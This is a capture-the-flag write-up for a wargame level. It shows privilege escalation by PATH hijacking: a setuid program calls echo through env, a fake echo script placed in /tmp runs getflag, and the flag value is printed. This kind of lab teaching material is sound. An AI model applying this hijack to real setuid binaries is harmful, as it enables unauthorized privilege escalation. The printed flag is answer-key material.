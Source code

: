 # Level03

### Tools
strings command : https://ioflood.com/blog/strings-linux-command/


### How to solve it

1. After loging in using ssh in level03@(vmIP): 
```
ssh level03@000.000.000.000 -p 4242
```
2. We use the ls command and it shows level03 file
```
level03
```
3. Then we have to try to execute it and we get a message
```
Exploit me
```
4. In order to check whats inside we use strings function to get printable information inside it
```
strings level03 and if you want to find it faster using Exploit string just add a pipe with Exploit strings level03 | grep Explot
```
5. The we have a path along with Exploit me string
```
/usr/bin/env echo Exploit me
```
6. So now we know the path that echo is called with system() like system("/usr/bin/env echo Exploit me.") and then we have to use it to run getflag inside the program.
6. The problem is we have to run it inside their system and we have to use flag03 user to execute it, one way is exchanging the echo command for the getflag command.
7. First we create a file in /tmp with a echo that will get the flag and then we give permisson for it.
```
echo -e '#!/bin/bash\ngetflag' > /tmp/echo 
chmod +x /tmp/echo
```
8. The we have export the PATH of this echo to env
```
export PATH=/tmp:$PATH

```
8. Now we run the program and our fake echo will run getflag inside it and we now have the flag:
```
qi0maab88jeaj46qoumi7maus
```
### How to protect
 - This only works because the program sets the current user to flag03, if it was not implemented it wouldnt work

